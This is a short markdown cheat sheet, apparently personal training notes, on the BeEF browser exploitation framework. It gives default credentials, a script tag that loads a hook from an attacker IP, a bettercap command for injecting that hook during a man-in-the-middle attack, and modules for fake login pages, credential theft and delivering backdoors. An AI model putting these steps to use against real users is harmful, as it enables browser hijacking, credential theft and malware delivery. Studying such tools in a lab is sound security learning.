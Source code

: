 ```yaml
---
title: BeEF
tags: [security, tool, web]
---
```


BeEF : Browser Exploitation Framework  
Makes use of JS to hook the target browser. Works on any platform as long as target device browser supported JS

Username : beef  
Password : password

<u>Hook URL</u>

````bash
<script src="http://<attacker-ip-address>:3000/hook.js"></script>
````

The URL can be sent to the target using various methods like Social Engineering, MITM attack with DNS spoofing, XSS or JS Injection after performing MITM attack

### Tabs Explained

Detail Tab : Browser Details  
Logs : Events that occurred in the browser  
Commands : Run various commands  
Proxy : Allows to use hooked browser as a proxy  
XssRays : Shows if page has any XSS vulnerabilities  
Network : Overview of current network

<u>Load Hook Script on all Sites (MITM + JS Injection)</u>

Inject Beef Code : <https://drive.google.com/file/d/1uCeGZKyP1Cj2UIORqYMrlFTyi9dLaCUa/view?usp=sharing>  
Add the JS Script in the HSTS Hijack caplet file and perform MITM attack

````bash
bettercap -iface <interface> -caplet <sniff-data-cap-file>
hstshijack/hstshijack (Run HSTS Caplet)
````

### Commands

1. <u>Create Alert Dialog</u>  
   Create an dialog box on the target browser
2. <u>Raw JavaScript</u>  
   Execute JS code on the target browser
3. <u>Spyder Eye</u>  
   Take screenshot of the target browser screen
4. <u>Redirect Browser</u>  
   Redirect the target to an different webpage
   Can be used to redirect to download an backdoor, fake login page, etc.
5. <u>Get Visited URL</u>  
   Check of a URL was visited by the target
6. <u>Pretty Theft</u>  
   Create fake relogin page to steal credentials
7. <u>Fake Notification Bar</u>  
   Send Backdoor, malicious code to user using an fake notification message  
   If sending an backdoor ensure to start "Multi Handler" to listen to the connection